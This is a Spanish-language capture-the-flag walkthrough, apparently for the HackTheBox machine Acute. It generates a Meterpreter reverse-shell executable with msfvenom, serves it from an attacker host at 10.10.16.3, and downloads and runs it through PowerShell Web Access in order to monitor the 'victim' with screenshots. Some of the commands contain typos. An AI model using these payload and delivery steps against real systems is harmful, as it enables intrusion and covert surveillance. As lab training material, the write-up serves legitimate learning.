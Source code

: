 El objetivo será monitorear el equipo de la víctima a través de capturas de pantalla, una utilidad que nos ofrece _**msfconsole**_.

El primer paso será realizar un binario de una Reverse Shell de Meterpreter a través de la herramienta _**msfvenom.**_

Una vez generado el payload de la Reverse Shell, procederemos a acceder a la consola interactiva de Metasploit.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=443 -f exe > shell.exe

msfconsole
```

<figure><img src="../../../.gitbook/assets/2693_vmware_MOVv6KCEFd.png" alt=""><figcaption></figcaption></figure>

Configuraremos la sesión de Metasploit para recibir la Reverse Shell. Levantaremos un servidor web con Python para compartir el binario del payload y desde la consola de PowerShell Web Access procederemos a transferirnos el binario al equipo _**Acute-PC01**_.

Iniciaremos el Metasploit para recibir la Reverse Shell y desde la consola de PowerShell Web Access ejecutaremos el binario y comprobaremos que recibimos correctamente la Reverse Shell en Metasploit.

```powershell
msf6> use explot/multi/handler

msf6> set lhost 10.10.16.3

msf6> set port 443

msf6> set payload windows/meterpreter/reverse_tcp

msf6> run

python3 -m http.server

IWR-Uri http://10.10.16.3/shell.exe -OutFile shell.exe

.\shell.exe
```
